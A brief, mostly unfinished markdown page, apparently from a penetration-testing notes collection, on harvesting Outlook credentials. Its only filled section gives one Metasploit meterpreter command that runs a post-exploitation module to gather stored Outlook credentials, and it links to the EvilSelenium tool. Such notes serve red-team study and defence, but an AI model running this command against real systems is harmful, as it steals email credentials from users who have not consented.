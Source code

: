 # Outlook

## 01 - Manual

TODO: Fill this info

## 02 - Metasploit

`meterpreter > run post/windows/gather/credentials/outlook`

## 03 - EvilSelenium

TODO: Fill this info

---
## References

- [EvilSelenium](https://github.com/mrd0x/EvilSelenium)